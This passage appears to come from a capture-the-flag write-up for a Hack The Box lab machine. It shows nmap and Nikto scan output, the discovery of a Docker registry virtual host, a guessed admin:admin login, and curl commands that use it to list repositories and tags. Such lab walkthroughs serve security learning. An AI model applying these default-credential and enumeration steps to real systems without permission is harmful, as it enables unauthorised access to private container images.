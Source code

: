 ```
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-05-06T21:14:35
| Not valid after:  2029-05-03T21:14:35
| MD5:   0d6f 504f 1cb5 de50 2f4e 5f67 9db6 a3a9
|_SHA-1: 7da0 1245 1d62 d69b a87e 8667 083c 39a6 9eb2 b2b5
4321/tcp filtered rwhois
4444/tcp filtered krb524
8001/tcp filtered vcom-tunnel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 20 03:12:42 2019 -- 1 IP address (1 host up) scanned in 38.45 seconds

```

###NIKTO
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.159
+ Target Hostname:    registry.htb
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=docker.registry.htb
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /CN=Registry
+ Start Time:         2019-10-27 12:24:00 (GMT0)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x5cd06d79 0x264 
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS

```
Interesting Vhost:
- `docker.registry.htb`

The `docker.registry.htb` allows us to pull docker images and read any changes made by owner. It requires authenication. Just guessing we can get the credentials
```
admin:admin
```

I list repos in registry using
```
curl https://docker.registry.htb/v2/_catalog -u admin:admin -k
```

Finding out tags listed for repo using
```
curl https://docker.registry.htb/v2/bolt-image/tags/list# -u admin:admin -k
```
